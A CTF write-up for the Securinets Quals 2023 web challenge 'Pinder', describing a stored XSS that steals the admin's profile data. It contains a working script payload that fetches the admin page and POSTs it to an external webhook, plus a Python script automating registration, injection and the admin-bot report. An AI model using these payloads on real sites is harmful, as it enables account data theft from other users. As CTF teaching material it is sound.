 ```yaml
---
title: "Securinets CTF Quals 2023 - webx1"
excerpt: "📅 Time: Sunday, August 6, 2023, 01:00 ICT — Monday, August 7, 2023, 01:00 ICT (~GMT +7)
💻 Official URL: https://ctf.securinets.tn"
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/SyrwTwfRh.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - English
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/SyrwTwfRh.png">
</p>

# Pinder

## Description

![](https://hackmd.io/_uploads/rkatqgpjn.png)

Link: http://pinder.securinets.tn

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/Securinets%20Quals%202023/pinder.zip).


## Solution

## Review source code

The source code is quite a lot but I will focus on a few important files.

![](https://hackmd.io/_uploads/H1aIoe6o2.png)

After looking through the entire source code, I noticed that there are some functions that should be paid attention to as follows:

- In the file `./routes/index.js`:

 `login`:

![](https://hackmd.io/_uploads/HJQcaeasn.png)

`register`:

![](https://hackmd.io/_uploads/B1Fa6lash.png)

`create-profile` and `make-public`:

![](https://hackmd.io/_uploads/rJRJReaj3.png)

In this function 3 inputs are required including `userId`, `firt_name`, `last_name` and `profile_picture_link`.

`const result = db.createProfile(req.session.userId, req.body.first_name, req.body.last_name, req.body.profile_picture_link, true);`


`/my-profile`:

![](https://hackmd.io/_uploads/By7FAlajh.png)

This path allows you to view previously created profiles. in which there is a point worth noting.

`res.render("my-profile", { profile: result[0] }` function gets the profile id in the database and displays it to the interface.

Here is the result of `result`:

![](https://hackmd.io/_uploads/B1B-1-Tj2.png)

However, on the desktop interface, the profile id is hidden with `style="display:none"`.

![](https://hackmd.io/_uploads/r12Qyb6jn.png)

There are also 2 other paths but only for admin.

![](https://hackmd.io/_uploads/H1ldJWpoh.png)

admin can view profiles of other accounts through the path `/profile/{id}`.

![](https://hackmd.io/_uploads/S1-aJbToh.png)


- The flag is located in the profile of `admin`.

![](https://hackmd.io/_uploads/rkrEeZTih.png)

- I tried to create a template containing malicious javascript code and open it in `admin` account.

In my account.

![](https://hackmd.io/_uploads/BkCYZZpj3.png)

In `admin`.

![](https://hackmd.io/_uploads/rJGab-ain.png)

yeah. :100: I received a message - XSS stored vulnerability from `admin` side.


- In `./util/report.js`:
There is a requirement, the url when sumit must start with `http://127.0.0.1/profile`.

![](https://hackmd.io/_uploads/B1UdMZpo2.png)

:::success
=> At this point, I can guess that this web application contains an XSS stored vulnerability.

The mining steps I perform will be as follows:
- Create an account and login
- Create profile contains XSS code to fetch to the profile in admin and send the results to a webhook.
- Get `id` of `profile` just created in view-source
- Submit my-profile to admin with the link `http://127.0.0.1/profile/{id}`
- Get flags from webhook
:::


## Exploit XSS
- Now, I change a bit the old payload to .
```!
"><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('	https://webhook.site/9a0f20d5-7f92-43bb-a455-5d82fd12eb17',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>
```

- Add it to the `firtname` of the profile.

![](https://hackmd.io/_uploads/BkxpQZpon.png)

Done!

- Looking at the source code we can see that `profile id` is `485`

![](https://hackmd.io/_uploads/S1GN4Zpoh.png)


- Now submit my profile to admin with the link
`http://127.0.0.1/profile/485`

![](https://hackmd.io/_uploads/ByiDNbTj3.png)

- ok, i get the flag from webhook.

![](https://hackmd.io/_uploads/HkU84b6in.png)

Flag: `securinets{3bcc81811533d70940084c8}`


## Script

```python
import requests
import string
import random

import time

from bs4 import BeautifulSoup

url = "http://pinder.securinets.tn"

webhook = "https://webhook.site/c575a735-3aaf-4b9a-b8b9-4eeba169e356"

payload = "'><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('#####',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>"

with requests.Session() as session:
    username = ''.join(random.choices(string.ascii_letters + string.digits, k=3))

    session.post(url + '/register', json={ 'username': username, 'password': '12345678'})
    session.post(url + '/login', json={ 'username': username, 'password': '12345678' })
    payload = payload.replace('#####', webhook)
    session.post(url + '/create-profile', json={"first_name":payload,"last_name":payload,"profile_picture_link":payload} )
    res = session.get(url + '/my-profile')
    if res.status_code == 200:
        soup = BeautifulSoup(res.content, "html.parser")
        card_subtitle = soup.find("p", class_="card-subtitle")
    
    if card_subtitle:
        value = card_subtitle.get_text().strip("#")
        print("Id profile: ", value)
        
    session.post(url + '/report', json={"url":"http://127.0.0.1/profile/" + value})
    time.sleep(2)
    print('Done! check webhook')


```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 2.py
Id profile:  517
Done! check webhook

```
Check webhook:

![](https://hackmd.io/_uploads/Syc66Zpj3.png)



